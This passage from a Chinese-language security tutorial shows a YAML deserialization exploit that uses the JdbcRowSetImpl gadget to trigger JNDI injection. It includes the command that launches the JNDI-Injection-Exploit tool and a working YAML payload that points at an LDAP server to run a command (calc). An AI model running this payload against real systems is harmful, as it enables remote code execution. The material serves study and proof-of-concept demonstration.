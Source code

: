 关于这个利用类的相关内容可以查看我的这篇文章：[JdbcRowSetImpl]()

这里就需要用到我们前边提到的：`创建一个对象后，会调用该对象字段的setter方法，比如Student这个类，会调用setAge方法。`

而`JdbcRowSetImpl`中如果能先构造好`dataSourceName`这个字段的值，然后在设置`autoCommit`的值，然后就能触发JNDI注入了。我这里直接使用JNDI注入的利用工具了：[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

在cmd中启动这个工具：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [ip]
```

![image-20250305193631507](./assets/image-20250305193631507.png)

然后构造一个JdbcRowSetImpl的YAML结构，如下：

```
!!com.sun.rowset.JdbcRowSetImpl {
    dataSourceName: "ldap://127.0.0.1:1389/n6vwxw",
    autoCommit: true
}
```

运行这份代码，即可执行`calc`代码。
